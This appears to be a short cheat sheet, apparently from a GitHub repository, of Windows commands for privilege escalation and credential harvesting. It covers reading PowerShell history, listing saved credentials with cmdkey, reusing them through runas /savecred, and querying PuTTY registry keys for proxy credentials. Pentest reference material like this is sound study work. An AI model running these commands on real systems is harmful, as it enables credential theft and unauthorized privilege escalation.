 Powershell History
Tool: cmd ( admin )
> %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

![image](https://github.com/cyberwh15ky/command/assets/142871997/1f4ccdad-a35f-4327-bd05-5a2fa3b66ba5)

Saved Windows Credentials
Tool: cmd ( admin )
> cmdkey /list

![image](https://github.com/cyberwh15ky/command/assets/142871997/f1fa1fff-530b-4b6c-8b30-6b3db45faeb5)

Try the user login
Tool: cmd ( admin )
> runas /savecred /user:admin cmd.exe

![image](https://github.com/cyberwh15ky/command/assets/142871997/ae29ae45-a559-4b11-a6d0-3884840a2952)

![image](https://github.com/cyberwh15ky/command/assets/142871997/26305a77-91b3-4550-8d86-d783c0afa33b)


Retrieve Credentials from Software: PuTTY
Tool: cmd ( admin )
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

![image](https://github.com/cyberwh15ky/command/assets/142871997/fd76849c-6eaa-4f9d-81a9-4c447154b311)

![image](https://github.com/cyberwh15ky/command/assets/142871997/d2c68171-98c8-4b9b-bcc6-423b6458b993)




Scheduled Tasks
Tool: cmd ( admin )
> schtasks
